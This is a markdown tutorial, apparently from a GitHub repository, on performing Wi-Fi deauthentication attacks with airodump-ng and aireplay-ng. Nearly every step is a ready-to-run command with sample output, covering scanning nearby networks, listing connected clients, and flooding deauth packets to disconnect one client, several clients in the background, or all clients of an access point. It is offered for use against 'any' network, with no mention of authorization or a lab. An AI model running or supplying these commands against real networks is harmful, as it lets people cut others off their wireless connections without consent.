

## Deauth-Attack

Every information security enthusiast probably  know this basic  deauthentication attack, and if you don't  know no need to worry this writeup will give a indepth knowledge about deauthentication attack.

---

##### WHAT IS DEAUTHENTICATION ATTACK ?

- It disconnects any client from your network
- No need to connect to that network
- No need to know its key
- Works against all wifi networks
  - WEP
  - WPA
  - WPA2

**This is done by the tool <mark> aireplay -ng </mark>**

> We are illustrating this attack in **wlan0** interface

The classic command to know about all networks near you is

STEP 1:

```bash
root@kali:~# airodump-ng wlan0

```

So you using the above command target  any desired network by specifying is's *channel(ch)* and *bssid*  to know all the clients connected to that specific network.

STEP: 2

```bash
root@kali:~# airodump-ng --channel 1  -- bssid  56:13:58:76:5B:55 wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 30 s ][ 2020-05-05 16:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus 7T           

BSSID              STATION            PWR   Rate    Lost    Frames  Probe                         

56:13:58:76:5B:55  38:F9:D3:8A:D4:87  -30    1e-24      0       36                                 
56:13:58:76:5B:55  20:82:C0:7F:77:9B  -32    0e- 6      0       71                                 
56:13:58:76:5B:55  08:00:27:E6:E5:59  -33    54-1       0       50
root@kali:~#

```
Now you can deauthenticate any client as your wish by the below command


```bash
root@kali:~# aireplay-ng --deauth 10000 -a (MAC ADDRESS OF TARGET ACCESS POINT) -c (MAC ADDRESS OF MACINE TO DISCONNET) wlan0

```

MAC ADDRESS OF TARGET ACCESS POINT: BSSID
MAC ADDRESS OF MACINE TO DISCONNET: STATION
10000: packets using to deauthenticate

STEP 3: (IN ANOTHER TAB)



This will do your job but once you do this your bash screen will overflow and stuck by packets message and you can't write and more commands in bash.

**But what if you want to deauthenticate multiple clients ?**  

So here we have the solution to our above problem:

**Run aireplay-ng .... multiple times to deauthenticate multiple clients**

TIPS:
- Use  **&** at the end of the command to run it in the
- Use  **&>/dev/null** to redirect output to null

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &

```
Hit Enter


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~#

```
You will get an job id and bash will allow you to run any command and job will be running in background.

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null
[2] 14785
root@kali:~#

```

- You can use **jobs** to see commands running in the background and **kill** to stop a specific job

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &
[2] 14785
root@kali:~#jobs
[1]- Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[2]+ Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &

```

Here you go smoothly in deauthenticating multiple clients . **But what if you want to disconnect all the devices**

To **disconnect** all clients connected to specific network

- Run the same **aireplay-ng** command
- Set the **BSSID** of target of NETWORK
- Omit the -c arguments (the client argument)


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```
Hit enter and you will successfully disconnect all the clients from that specific network.
>But if you get some **error** than follow the below commands to avoid error:

STEP1:

```bash
root@kali:~# airodump-ng wlan0

```
It will list all networks select the bssid and channel to deauthenticate all clients.


STEP 2:
```bash
root@kali:~# airodump-ng  --bssid 56:13:58:76:5B:55  --channel 1  wlan0

```

STEP3: (Run this in another TAB)

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```

See deauthentication attack is required in many  attack,  you can treat it as a small part of many network accessing attacks so keep a good grip on it.

---

**Author** - [Error](https://github.com/Error-200)
